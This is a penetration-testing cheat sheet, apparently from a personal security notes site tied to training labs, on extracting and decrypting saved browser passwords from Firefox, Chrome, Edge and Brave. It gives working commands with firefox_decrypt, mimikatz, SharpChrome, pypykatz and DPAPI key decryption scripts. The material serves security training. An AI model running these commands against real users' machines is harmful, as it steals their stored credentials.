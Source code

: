 # Browser Saved Passwords

<div class="row row-cols-lg-2"><div>

#### Extract Firefox Saved Passwords

[![password_attacks](../../../_badges/htb/password_attacks.svg)](https://academy.hackthebox.com/course/preview/password-attacks)
[![glitch](../../../_badges/thm-p/glitch.svg)](https://tryhackme.com/r/room/glitch)
[![file_insecure_storage_1](../../../_badges/rootme/cryptanalysis/file_insecure_storage_1.svg)](https://www.root-me.org/en/Challenges/Cryptanalysis/File-Insecure-storage-1)

Mozilla Firefox passwords can be extracted and cracked using [firefox_decrypt](https://github.com/unode/firefox_decrypt) <small>(2.0k ⭐)</small>. To install it on Kali:

```ps
$ pipx install git+https://github.com/unode/firefox_decrypt.git
$ firefox_decrypt -h
$ firefox_decrypt /tmp/.mozilla/firefox/
```

Additional notes:

```ps
$ tar -cvf firefox.tgz .mozilla
$ ls -l .mozilla/firefox/ | grep default
$ cat .mozilla/firefox/xxx.default-release/logins.json | jq.
```

#### Extract Chrome Dictionaries

[![windows_privilege_escalation](../../../_badges/htb/windows_privilege_escalation.svg)](https://academy.hackthebox.com/course/preview/windows-privilege-escalation)

Users may have added some sensitive information inside their personal browser dictionary <small>(email/username/...)</small>.

```ps
PS> ls "$Env:localappdata/Google/Chrome/User Data/Default/Custom Dictionary.txt"
```
</div><div>

#### Extract Chrome, Edge, and Brave Saved Passwords

[![windows_privilege_escalation](../../../_badges/htb/windows_privilege_escalation.svg)](https://academy.hackthebox.com/course/preview/windows-privilege-escalation)
[![chrome](../../../_badges/thm-p/chrome.svg)](https://tryhackme.com/room/chrome)

On Windows, you can find the user browser sensitive files at:

```text!
AppData\Local\Microsoft\Edge\User Data
AppData\Local\Google\Chrome\User Data
AppData\Local\BraveSoftware\Brave-Browser\User Data\
```

* **Decrypt on Windows** using [decrypt-chrome-passwords](https://github.com/ohyicong/decrypt-chrome-passwords/) <small>(0.9k ⭐)</small>

* **Decrypt on Windows** [mimikatz](/cybersecurity/red-team/tools/utilities/creds/mimikatz.md)

For the current user, you can use:

```shell!
mimikatz# dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Login Data" /unprotect
```

* **Decrypt on Windows** using [SharpChrome](https://github.com/GhostPack/SharpDPAPI) <small>(1.2k ⭐)</small> | [compiled](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)

```shell!
PS> .\SharpChrome.exe logins /unprotect
```

* **Decrypt on Linux** using [pypykatz](/cybersecurity/red-team/tools/utilities/creds/pypykatz.md)

Passwords are stored [SQLite](/programming-languages/databases/relational/dbms/sqlite.md) database in `./<profile>/Login Data` such as `./Default/Login Data`. They are encrypted using a base64-encoded key in `./Local State`. You can display it using:

```ps
$ cat "./Local State" | jq | grep "encrypted_key"
"encrypted_key": "<encrypted secret key here>"
```

On Windows, the key is encrypted using [DPAPI master key](/operating-systems/windows/security/index.md#dump-credentials-protected-by-the-dpapi). Once you got it, you can decrypt the database using [pypykatz](/cybersecurity/red-team/tools/utilities/creds/pypykatz.md):

```shell!
$ cat mkf # master kejson file created by pypykatz
{
    "backupkeys": {},
    "masterkeys": {
        "H-I-J-K-L": "master_key_here"
    }
}
$ pypykatz dpapi chrome ./mkf "./Local State" --logindata "./Default/Login Data"
```
</div></div>

<hr class="sep-both">

## Additional Notes

<div class="row row-cols-lg-2"><div>

#### DPAPI Master Key to extract Secret Key 

Once we have the DPAPI master key, we can alternatively decrypt the encrypted secret key, and use it to decrypt the passwords.

On Linux, we can use [dpapilab-ng](https://github.com/tijldeneut/dpapilab-ng/blob/main/blobdec-with-masterkey.py) <small>(0.1k ⭐)</small> to decrypt the secret key and [dcp](https://github.com/palmenas/dcp/tree/main) <small>(0.002k ⭐)</small> to decrypt and dump passwords.

```shell!
$ base64 -d > key.enc <<< "<encrypted secret key here>"
$ python -c "with open('key.enc', 'rb+') as f: data = f.read(); f.seek(0); f.write(data[5:]); f.truncate()" # remove the DPAPI text at the start of the file
$ pip install dpapick3
$ python3 blobdec-with-masterkey.py key.enc --masterkey "<master key here>"
<secret_key_here>
$ python3 dcp.py -S "<secret_key_here>" -P "./Default/Login Data"
```
</div><div>
</div></div>
